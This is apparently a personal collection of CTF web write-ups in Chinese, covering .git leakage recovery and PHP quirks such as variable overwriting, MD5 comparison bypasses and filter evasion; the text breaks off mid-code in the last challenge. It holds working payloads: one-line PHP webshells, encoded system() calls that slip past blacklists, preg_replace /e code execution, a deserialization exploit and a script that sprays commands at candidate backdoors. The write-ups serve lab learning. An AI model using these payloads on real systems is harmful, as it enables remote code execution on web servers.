## 信息泄露

### git信息泄露

#### 前言

本来是不想专门为信息泄露写一个wp的，觉得大型比赛可能不会有这种题目，但偶然间完整的做了一个git泄露题目，实在觉得有意思，就整理一个git信息泄露的题吧

#### [BUGKU]source

进入页面，什么都没有，扫下后台发现git
利用**ubuntu**的` wget -r http://114.67.175.224:14802/.git/`得到
下载的默认目录在当前用户的文件夹里面

```shell
xiaolei@xl-pc:~/114.67.175.224:14802$ cd /home/xiaolei
xiaolei@xl-pc:~$ ls
114.67.175.224:14802
xiaolei@xl-pc:~$ cd 114.67.175.224\:14802/
```

然后执行命令`git reflog` 就是看历史日志的命令，可以看各个版本做了哪些改动

```sh
xiaolei@xl-pc:~/114.67.175.224:14802$ git reflog
d256328 (HEAD -> master) HEAD@{0}: reset: moving to d25632
13ce8d0 HEAD@{1}: commit: flag is here?
fdce35e HEAD@{2}: reset: moving to fdce35e
e0b8e8e HEAD@{3}: reset: moving to e0b8e
40c6d51 HEAD@{4}: commit: flag is here?
fdce35e HEAD@{5}: commit: flag is here?
d256328 (HEAD -> master) HEAD@{6}: commit: flag is here?
e0b8e8e HEAD@{7}: commit (initial): this is index.html
```

接下来就是一个个看文件，最终在`40c6d51`中发现flag


#### [ctfhub]Git泄露/Log

弄环境和工具，极限最后30秒填完flag...
进入题目，经典的`Where is flag?`
直接去`.git`吧，结果发现`403 Forbidden`，`wget`肯定不能用了，但是`GitHack`还是能用的
然后先安装了lijiejie的`GitHack`，结果无论如何都扫不出来
只能换`BugScanTeam`的`GitHack`，但是这个是要`python2`环境的，于是又安装了`python2`
(不得不说，linux是真好用，随便安装不同版本的python，直接一句`sudo apt install python2`就完事了)
然后进目录

```
 python2 GitHack.py -u http://challenge-52bd938862064249.sandbox.ctfhub.com:10800/.git/
 进入下载出来的目录(在dist目录里面)
 然后就是 git reflog   git show 找flag了
```


#### [ctfhub]Git泄露/Stash

本题如题所示用到了`stash`
前面的步骤和上题一样，就是`git show`找flag时根本找不到

> **git stash**
>
> 能够将所有未提交的修改（工作区和暂存区）保存至堆栈中，用于后续恢复当前工作目录。
>
> **应用场景：**
>   当正在dev分支上开发某个项目，这时项目中出现一个bug，需要紧急修复，但是正在开发的内容只是完成一半，还不想提交，这时可以用git stash命令将修改的内容保存至堆栈区，然后顺利切换到hotfix分支进行bug修复，修复完成后，再次切回到dev分支，从堆栈中恢复刚刚保存的内容。
>   由于疏忽，本应该在dev分支开发的内容，却在master上进行了开发，需要重新切回到dev分支上进行开发，可以用git stash将内容保存至堆栈中，切回到dev分支后，再次恢复内容即可。
> 总的来说，git stash命令的作用就是将目前还不想提交的但是已经修改的内容进行保存至堆栈中，后续可以在某个分支上恢复出堆栈中的内容。这也就是说，stash中的内容不仅仅可以恢复到原先开发的分支，也可以恢复到其他任意指定的分支上。git stash作用的范围包括工作区和暂存区中的内容，也就是说没有提交的内容都会保存至堆栈中。

没进行过`git`开发，不是很懂这些，但其实明确的是这题要用到这个，所以就看一下stash目录
`git stash list`

```
stash@{0}: WIP on master: 345dcf2 add flag
```

`git stash pop`

```
冲突（修改/删除）：20388891918826.txt 在 Updated upstream 中被删除，在 Stashed changes 中被 修改。20388891918826.txt 的 Stashed changes 版本被保留。
贮藏条目被保留以备您再次需要。
```

弹出了这个更改，然后查看一下就得到flag


#### [ctfhub]Git泄露/index

最后一题反而最简单，和题目名一样，下载下来直接就有flag文件在里面
`cat 148362260129772.txt`
直接读就好了


#### [BJDCTF2020]Mark loves cat

进去的一个页面，点什么都没用，抓包和源码也没看出什么
buu的环境，扫后台我又扫不了，试试**.git**，真有，然后用了之前的两种githack抓文件都没弄出index.php
换了**Git_Extract**，抓出来了
源码

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}
foreach($_GET as $x => $y){
    $$x = $$y;
}
foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}
if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}
if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}
echo "the flag is: ".$flag;
```

很明显的**变量覆盖**了，因为exit也是能输出函数的，一个很简单的覆盖
`GET ?yds=flag`在第二个foreach中，将yds的地址指向了flag的地址，变量覆盖，在第二个if里面就输出了
这里有三个exit，一个echo，本来变量覆盖还不是很懂，趁着这个机会找找别的解法

**第一个exit**

~~`$_GET['flag'] === $x && $x !== 'flag'`，如果要有**$_GET['flag']**，就一定要GET传flag，而这样的话$x也可以是$flag，前后两个矛盾，不可能相等~~
打脸了，其实还真可以
注意，后面的是字符串而已
`?handsome=flag&flag=b&b=flag`

**第二个exit**

已写

**第三个exit**

把is的值用flag替换，GET传flag=flag来满足if，这样的话，flag还是flag
`?is=flag&flag=flag`

**最后的echo**

第三种实在没弄出来，但是机缘巧合之下，触发了第一个exit？？？？


## php特性

### [BJDCTF2020]Easy MD5

进入网页，输入框随便输点值


看源代码也没什么提示，所以先去抓个包


发现hint

查一下md5

 **md5(string,raw)**

|  参数  |                             描述                             |
| :----: | :----------------------------------------------------------: |
| string |                    必需。要计算的字符串。                    |
|  raw   | 可选。默认不写为FALSE。32位16进制的字符串TRUE。16位原始二进制格式的字符串 |

也就是说，如果raw不写或者写false的话，输出的是md5加密后的原始数据

而如果写true，输出的是md5加密后的二进制格式的数据

所以要在这样加密后的数据在原来的语句中实现sql注入

```
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
```

这个字符串就相当于'or'6

进入原sql语句中就变成

`select * from 'admin' where password=''6'`

实现sql注入

然后进入下一关


md5弱比较，用数组或者加密后为0e且<font color='red'>后面为纯数字</font>的数据都可绕过

附上一些值

| 原值        | 加密后                           |
| ----------- | -------------------------------- |
| QNKCDZO     | 0e830400451993494058024219903391 |
| 240610708   | 0e462097431906509019562988736854 |
| s878926199a | 0e545993274517709034328855841020 |
| s155964671a | 0e342768416822451524974117254469 |

直接传就行

然后最后一关


md5强比较，传数组就ok


数组能绕过是因为md5函数报错两个返回值一样，所以相等

0e是因为md5会默认0e开头后为纯数字的数据当作0


### [dsb]web签到


从代码来看，就是构造一个正反一样的字符串，还能包含进行rce，直接使用data协议即可，data协议后，<font color='pink'>php标记?>闭合后可以加任意字符。</font>

**data协议暂时还不懂**

于是构造payload

`file=data://text/plain,<?php eval($_POST[1]);?>>?;)]1[TSOP_$(lave php?<,nialp/txet//:atad&1=system("cat /f1agaaa");`

利用data协议写进了一句话木马，然后ls一下cat flagaaa就好了

### 变量


```php
flag In the variable ! <?php  

error_reporting(0);
include "flag1.php";
highlight_file(__file__);
if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
    eval("var_dump($$args);");
}
```

这个正则匹配不太懂...

最后用全局变量`GLOBALS`拿到flag


### 代码审计


进入页面，看源码，没有发现任何有用信息

扫下目录


下载index.php.bak源码

```php
<?php
include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');
$str = substr($str,1);
$str = str_replace('key','',$str);
parse_str($str);
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
?>
```

介绍部分函数

<font color='purple'>**strstr** </font>

`strstr(string,search,before_search)`

| 参数          | 描述                                                         |
| ------------- | ------------------------------------------------------------ |
| string        | 必需。规定被搜索的字符串。                                   |
| search        | 必需。规定要搜索的字符串。如果该参数是数字，则搜索匹配该数字对应的 ASCII 值的字符。 |
| before_search | 可选。一个默认值为 "false" 的布尔值。如果设置为 "true"，它将返回 search 参数第一次出现之前的字符串部分。 |

```php
<?php
$email  = 'name@example.com';
$domain = strstr($email, '@');
echo $domain; // 打印 @example.com

$user = strstr($email, '@', true); // 从 PHP 5.3.0 起
echo $user; // 打印 name
?>
```

<font color='purple'>**substr** </font>

`substr(string $string, int $offset, ?int $length = null): string`

类似mysql的mid函数，但是可以有负数

```php
<?php
$rest = substr("abcdef", 0, -1);  // 返回 "abcde"
$rest = substr("abcdef", 2, -1);  // 返回 "cde"
$rest = substr("abcdef", 4, -4);  // 返回 ""; 在 PHP 8.0.0 之前，返回 false
$rest = substr("abcdef", -3, -1); // 返回 "de"
?>
```

<font color='purple'>**str_replace** </font>

名字就很清楚了，将匹配的字符或字符串替换为想要替换的

只运行一次哦

<font color='purple'>**parse_str** </font>

直接看例子体会

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";

// 推荐用法
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz

// 不建议这么用
parse_str($str);
echo $first;  // value
echo $arr[0]; // foo bar
echo $arr[1]; // baz
?>
```

本题就是用的第二种用法，把key1和key2分出来了

所以本题最主要就是绕过`str_replace`和`md5`

双写绕过`str_replace`和 数组`md5`

`?kekeyy1[]=1&kekeyy2[]=2`


### 对方不想和你说话，并向你扔了一段代码


<font color='purple'>**extract** </font>

类似于上题的`prase_str`

也是把数组拆开

```php
<?php

/* 假定 $var_array 是 wddx_deserialize 返回的数组*/

$size = "large";
$var_array = array("color" => "blue",
                   "size"  => "medium",
                   "shape" => "sphere");
extract($var_array, EXTR_PREFIX_SAME, "wddx");

echo "$color, $size, $shape, $wddx_size\n";

?>
//输出：blue, large, sphere, medium
```

所以直接GET`?a=&b=`就直接给a和b传值了

`$c=trim(file_get_contents($b))`<font color='pink'>这段暂时不懂</font>

直接传`?a=`或者`?a=&b=`都可以


### [BMZCTF]WEB_ezeval


```php
<?php
highlight_file(__FILE__);
$cmd=$_POST['cmd'];
$cmd=htmlspecialchars($cmd);
$black_list=array('php','echo','`','preg','server','chr','decode','html','md5','post','get','file','session','ascii','eval','replace','assert','exec','cookie','$','include','var','print','scan','decode','system','func','ini_','passthru','pcntl','open','link','log','current','local','source','require','contents');
$cmd = str_ireplace($black_list,"BMZCTF",$cmd);
eval($cmd);

?>
```

> **htmlspecialchars**
>
> ```html
> & （和号）成为 &amp;
> " （双引号）成为 &quot;
> ' （单引号）成为 '
> < （小于）成为 &lt;
> > （大于）成为 &gt;
> ```
>
> 可以看到，单引号是没变的，可以使用

然后对于过滤，可以用字符串拼接绕过(php>7)

```php
(p.h.p.i.n.f.o)();
(sy.(st).em)(whoami);
(sy.(st).em)(who.ami);
(s.y.s.t.e.m)("whoami");
.......
```

提一脚字符串转义绕过(在ctfshow的web41有类似的处理)

```
"\x70\x68\x70\x69\x6e\x66\x6f"();#phpinfo();
"\163\171\163\164\145\155"('whoami');#system('whoami');
"\u{73}\u{79}\u{73}\u{74}\u{65}\u{6d}"('id');#system('whoami');
"\163\171\163\164\145\155"("\167\150\157\141\155\151");#system('whoami');
.......
```

本题最终payload就是

`cmd=(s.y.s.t.e.m)('cat /flag');`

也可使用hex2bin

`cmd=hex2bin('73797374656d')('cat /flag');`


### [ctfshow]红包题第二弹


```php
<?php
#error_reporting(0);
?>
<html lang="zh-CN">

<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta name="viewport" content="width=device-width  minimum-scale=1.0  maximum-scale=1.0  initial-scale=1.0" />
    <title>ctf.show_红包题</title>
</head>
<body>
    <center>
    <h2>ctf.show_红包题</h2>
    <h4>where is the flag?</h4>
    </center>
    <!-- hint:?cmd= -->
    <?php
        if(isset($_GET['cmd'])){
            $cmd=$_GET['cmd'];
            highlight_file(__FILE__);
            if(preg_match("/[A-Za-oq-z0-9$]+/",$cmd)){
            
                die("cerror");
            }
            if(preg_match("/\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\{|\}|\[|\]|\'|\"|\:|\,/",$cmd)){
                die("serror");
            }
            eval($cmd);
        
        }
    
     ?>

</body>
</html>
```

过滤了几乎所有英文和中文，留下来了一个英文`p`，这题和web55是一样的，只不过那题更变态，连个p也没有留下
就是linux服务器在接收文件时，会把文件放在/tmp目录下(linux是php+六个字母或者数字，windows多一个.tmp后缀)，而`小数点`可以执行命令


抓一个上传文件的包出来，构造一下就完事了

有一点区别就是那题是用`system`包裹的，这题是`eval`包裹的需要先用`?>` 将前面的<?php闭合 才能`<?=加反引号`来绕过对字母的过滤

具体参考web55


### [RoarCTF 2019]Easy Calc


(尽管ctfshow这类题刷的差不多，但每次刷赛题还是能学到新知识😓)
访问页面


在源码看见了**calc.php**，并且有句提醒`I've set up WAF to ensure security.`
进入`calc.php`

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

这里只展示了简单的waf，为什么呢，一个函数都没拦也叫waf?(暴论)
果不其然，直接传`?num=phpinfo`被拦了
随便试了一下，好像只要传字母就被拦了
不知道这个waf是用什么语言写的，传`? num=phpinfo();`可以正常执行
因为这个waf检测的是`num`但是你传的是`空格+num`，而php会自动删掉你前面的那个空格，所以就执行成功了
接下来就有一个新知识了，如果你的符号被替代了，可以考虑一下

> **chr**
>
> ```php
> chr(47) = '/'
> ? num=var_dump(scandir(chr(47)));` = `?num=var_dump(scandir('/'));` = `?num=system('ls /');
> 
> array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(5) "f1agg" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(8) "start.sh" [20]=> string(3) "sys" [21]=> string(3) "tmp" [22]=> string(3) "usr" [23]=> string(3) "var" }
> 
> ? num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))  =  file_get_contents(/f1agg)  =  ? num=system(cat /f1agg)
> 
> ```


### [BJDCTF2020]ZJCTF，不过如此


```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

提示要先读取源码，很简单的读取


```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

到这里就给我整不会了，空有函数，无法调用
看了WP发现是**preg_replace**的漏洞，在php7之后已被ban
这篇讲的比我好，而且我正则实在太差了，先放个文章，以后总结的时候再细学一下
[深入研究preg_replace与代码执行](https://xz.aliyun.com/t/2557)

最终payload
`http://7bd80b89-b26c-4543-840a-0049a4ae06bf.node4.buuoj.cn:81/?text=php://input&file=next.php&(\S*)=${getFlag()}&cmd=system('cat /flag');`


### [强网杯 2019]高明的黑客


这题在buu上做实在是太折磨人🌶
buu上的环境扫描快了就报429，而这题保守估计有几万条数据要处理，假设我一秒10条，也要两三个小时
打开本题源码的时候我是懵的，几千个文件，然后搜了一下**eval**，其实也就几千个
这个时候我还是很有信心的，就是找到文件里的所有马然后一个个试，看哪个能用嘛

用我的烂python写了一个烂脚本(写了很久很久很久)

```python
import sys
import os
import re
from turtle import st
import requests
import time

path=r"E:\phpstudy_pro\WWW\test\src"
print(path)
files=os.listdir(path)  #得到所有文件名输出到一个表里面
url='http://2fd5d67b-3795-4fd9-a545-d7dc79a145ff.node4.buuoj.cn:81/'

for file in files:
    f=open(path+"\\"+file,"r")
    text=f.readlines()
    f.close()
    #print(text)
    for line in text:
        start1=line.find("$_GET[")#开始只找了包含eval的
        if start1!=-1:
            #print(line)
            end=line.find("']")
            php=r'=cat /flag;'
            #print(line[start1+12:end])
            GET=file+'?'+line[start1+7:end]+php
            time.sleep(0.05)
            r=requests.get(url+GET)
            if('flag'in r.text):
                print(line)
                print(GET)
                exit('you get the flag!!!')
                print(r.text)
            else :
                print('no')
                print(url+GET)
        start2=line.find("$_POST[")
        if start2!=-1:
            #print(line)
            end=line.find("']")
            POST=line[start2+8:end]
            data={f'{POST}':'cat /flag;'}
            time.sleep(0.05)
            r=requests.post(url=url+file,data=data)
            if('flag'in r.text):
                print(line)
                print('you get the flag!!!')
                exit(0)
            else :
                print('no')
                print(url+POST)
```

然后跑了十几分钟就跑完了，什么也没有

在我测试了许久确定我的脚本没有问题之后，就去看了WP
原来题目的意思是，只要有`$_GET`或者`$_POST`的都算马
上面的脚本就是按这个来的，也就是按这样来的话，我跑到环境结束也跑不出来
就直接看了是哪个文件的马，单独测试了一下发现脚本没问题就🆗了
贴一个大佬的巨快速脚本，要是没有429就好了😫

```python
import requests
import os
import re
import threading
import time

session = requests.Session()   
session.keep_alive = False  # requests默认使用urllib3库，默认是长连接，改为false,关闭多余的连接
requests.adapters.DEFAULT_RETRIES = 8  # 设置重连次数，防止线程数过高，断开连接
sem = threading.Semaphore(30)  # 设置最大线程数 ,别设置太大，不然还是会崩的挺厉害的，跑到关键的爆炸，心态就爆炸了

url = "http://2fd5d67b-3795-4fd9-a545-d7dc79a145ff.node4.buuoj.cn:81/"


path = r"E:\phpstudy_pro\WWW\test\src"+"\\"

rrGET = re.compile(r"\$_GET\[\'(\w+)\'\]")  # 匹配get参数，w 匹配任何字母和数字还有下划线，+ 匹配+之前的1次或多次

rrPOST = re.compile(r"\$_POST\[\'(\w+)\'\]")  # 匹配post参数

fileNames = os.listdir(path)  # 列出目录中的文件,以每个文件都开一个线程

flags = []  # 用于存所有的注入点信息,下面的flag表示注入点的信息，php文件名和参数名

local_file = open("flag.txt", "w", encoding="utf-8")


def run(fileName):
    with sem:
        file = open(path + fileName, 'r', encoding='utf-8')
        content = file.read()
        print("[+]checking:%s" % fileName)
        # 测试get的参数
        for i in rrGET.findall(content):
            r = session.get(url + "%s?%s=%s" % (fileName, i, "echo 'h3zh1';"))
            print(url + "%s?%s=%s" % (fileName, i, "echo h3zh1;"))
            if "h3zh1" in r.text:
                flag = "You Find it in GET fileName = %s and param = %s \n" % (fileName, i)
                print(flag)
                local_file.write(flag)
                exit(0)
        # return
    # 测试post的参数
    # for i in rrPOST.findall(content):
    #     r = session.post( url + fileName , data = { i : "echo h3zh1;" } )
    #     if "h3zh1" in r.text:
    #         flag = "You Find it in POST: fileName = %s and param = %s \n" % ( fileName, i )
    #         print(flag)
    #         local_file.writelines(flag)

if __name__ == '__main__':
    start_time = time.time()  # 开始时间
    print("[start]程序开始:" + str(start_time))
    thread_list = []
    for fileName in fileNames:
        t = threading.Thread(target=run, args=(fileName,))
        thread_list.append(t)
    for t in thread_list:
        t.start()
    for t in thread_list:
        t.join()
    end_time = time.time()
    local_file.close()  # 关文件
    print("[end]程序结束:用时:" + str(end_time - start_time))

```


### [WUSTCTF2020]朴实无华


打开网站，`hack me`和报错信息，手动扫后台发现**robots.txt**
进入**/fAke_f1agggg.php**，在文件头发现**fl4g.php**
访问**fl4g.php**，就可以发现就是一个php各种绕过

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "鎴戜笉缁忔剰闂寸湅浜嗙湅鎴戠殑鍔冲姏澹�, 涓嶆槸鎯崇湅鏃堕棿, 鍙槸鎯充笉缁忔剰闂�, 璁╀綘鐭ラ亾鎴戣繃寰楁瘮浣犲ソ.</br>";
    }else{
        die("閲戦挶瑙ｅ喅涓嶄簡绌蜂汉鐨勬湰璐ㄩ棶棰�");
    }
}else{
    die("鍘婚潪娲插惂");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "鎯冲埌杩欎釜CTFer鎷垮埌flag鍚�, 鎰熸縺娑曢浂, 璺戝幓涓滄緶宀�, 鎵句竴瀹堕鍘�, 鎶婂帹甯堣桨鍑哄幓, 鑷繁鐐掍袱涓嬁鎵嬪皬鑿�, 鍊掍竴鏉暎瑁呯櫧閰�, 鑷村瘜鏈夐亾, 鍒灏忔毚.</br>";
   else
       die("鎴戣刀绱у枈鏉ユ垜鐨勯厭鑲夋湅鍙�, 浠栨墦浜嗕釜鐢佃瘽, 鎶婁粬涓€瀹跺畨鎺掑埌浜嗛潪娲�");
}else{
    die("鍘婚潪娲插惂");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "鎯冲埌杩欓噷, 鎴戝厖瀹炶€屾鎱�, 鏈夐挶浜虹殑蹇箰寰€寰€灏辨槸杩欎箞鐨勬湸瀹炴棤鍗�, 涓旀灟鐕�.</br>";
        system($get_flag);
    }else{
        die("蹇埌闈炴床浜�");
    }
}else{
    die("鍘婚潪娲插惂");
}
?>
```

**level1-①**

很简单绕过，你给num传十六进制的数时，它会被定义为字符串型变量，所以第一个就直接返回为0，而第二个由于进行了加减变化，会强制转换下进制，所以变成了十六进制来计算(这种方法虽然在题目中通过了，但是在本地一直不成功)
传一个稍微大一点的十六进制就可以了

**level1-②**

根据`intval()`函数的使用方法，当函数中用字符串方式表示科学计数法时，函数的返回值是科学计数法前面的一个数，而对于科学计数法加数字则会返回科学计数法的数值，所以传一个`2e4`也是可以的

**level2**

这里就有点意思了md5前等于md5后，第一次见这样的绕过，就想着能否构造一个md5前后，开头都是**0e**的值(后面全为数字)，网上果然有
**0e215962017**

**level3**

这个就是直接rce了，就过滤了一个cat

**最终payload**

```
?num=2e4&md5=0e215962017&get_flag=tac$IFS$9fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```


### [安洵杯 2019]easy_web

不知道为什么，这题无论是我自己用脚本弄出来的payload还是网上的payload都不行，起初以为是环境坏了，但是自己再本地搭的环境也不行，还是记个新思路吧
源码

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
?>
```

要使POST传的两个值转为字符串型后**强不等于**，而md5后**强等于**
传数组第一个是无法过的，所以这一题就要用到md5强碰撞

> **fastcoll**
>
> 将一个写了字符的txt文件拖入该exe文件中，等待片刻就会生成两个文件，这两个文件便是md5加密后都为xl的两个文件
> 然后写个php输出这两个文件内容url加密后的字符
>
> 在**cyberchef**比较一下
>
> 会发现，两个md5值一模一样...
> 只能说这软件太猛了，md5真的不再安全了


### [NPUCTF2020]ReadlezPHP


```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

很容易找到源码，很简单的php反序列化
可是ban了很多函数，而且看phpinfo的时候用的是`echo phpinfo(1);`
搜索也搜不到flag，之后试了很多函数但都被ban了

然后去看了WP，发现**flag确实就是在phpinfo**里面，但是phpinfo是用参数的！！！！！

> **phpinfo()**
>
> 

所以得到**phpinfo(-1)**才能找到flag
或者**assert(phpinfo())**也可以

> **assert**
>
> assert — 检查一个断言是否为 **`false`**
>
> 如果 `assertion` 是字符串，它将会被 **assert()** 当做 PHP 代码来执行。    `assertion` 是字符串的优势是当禁用断言时它的开销会更小，并且在断言失败时消息会包含 `assertion` 表达式。   这意味着如果你传入了 boolean 的条件作为 `assertion`，这个条件将不会显示为断言函数的参数；在调用你定义的  [assert_options()](mk:@MSITStore:E:\tools\php manual\php_enhanced_zh.chm::/res/function.assert-options.html) 处理函数时，条件会转换为字符串，而布尔值 **`false`** 会被转换成空字符串。

exp

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "assert";
    }
}
$c = new HelloPhp;
echo serialize($c);
?>
```


### [极客大挑战 2019]RCE ME


自己把这题想太简单了...

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

直接给出源码，以为就是无字母RCE

```python
import requests

url='http://92da1379-95ac-4207-a36f-6893dc2e3534.node4.buuoj.cn:81/?code='
file={
    "file":"ls /"
}

data='?><?=`.+/???/????????[@-[]`?>'
r=requests.get(url=url+data,files=file)
if "t*" in r.text:
    print('执行成功\n')
    print(r.text)
else:
    print('执行失败')
    print(r.text)

```

写脚本和bp发包试了半天一直不成功，只好看WP(后来发现是shell函数都被ban了)
发现是[取反或者异或绕过](https://blog.csdn.net/mochu7777777/article/details/104631142)

> **取反马**
>
> ```php
> <?php
> echo urlencode(~'assert').'\n';
> echo urlencode(~'eval($_POST[1])');
> ?>
> %9E%8C%8C%9A%8D%8B
> %9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6
> ?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6);
> ```
>
> 

> **异或马**
>
> 异或的构造可以参考ctfshow的web41，里面的脚本稍微改改就能用(y1ng师傅太强了)
> 但是这题限制了code长度，所以不能用**异或马**，但看phpinfo是足够的
>
> `?code=("%10%08%10%09%0e%06%0f"|"%60%60%60%60%60%60%60")("%10"|"%21");`

然后getshell死活弄不上，在phpinfo发现`system shell_exec 反引号也不能用`，都被过滤了
在看了目录之后
直接`readfile('/flag')读不出来`
`readfile('/readflag')`读出来乱码，感觉是命令
也就是说要执行这个linux命令才能得到flag😭

连蚁剑！


插件里有一个**绕过disable_function**


选择`PHP7_GC_UAF`，开始


输入命令得到flag，原理我是不懂的=。=

第二种方法感觉就是自己写的蚁剑的插件

参考链接：https://www.anquanke.com/post/id/175403
[EXP地址](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)

**暂不研究原理**


### [MRCTF2020]套娃


打开页面查看源码发现hint

```php
<!--
//1st
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
!-->
```

关于**_SERVER**的**QUERY_STRING**，在前面有遇到过，实际上就是url **?**后面的内容

#### 第一个if

绕过下划线，过滤了`.`和`%5f`，但是`%5F`是没过滤的(url编码对大小写不敏感)

**. %20**  小数点和空格同样也可以绕过，在php编码时是正常的，但在编码后变为变量名时这些就会被替换为下划线

|  User input   | Decoded PHP | variable name |
| :-----------: | :---------: | :-----------: |
| %20foo_bar%00 |   foo_bar   |    foo_bar    |
| foo%20bar%00  |   foo bar   |    foo_bar    |
|   foo%5bbar   |   foo[bar   |    foo_bar    |

#### 第二个if

**b_u_p_t**不绝对等于字符串型的**23333**但是开头到结尾必须是**23333**(经过本地测试，GET无论怎么传，传的都是字符串)
所以现在就是怎么绕过这个绝对不等于，开头到结尾也没变，加个换行符就行了

所以这里最后的payload`?b.u.r.p=23333%0a`

然后进入下一题，看源码发现一段js编码的命令，直接放入控制台

POST传一下发现源码

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
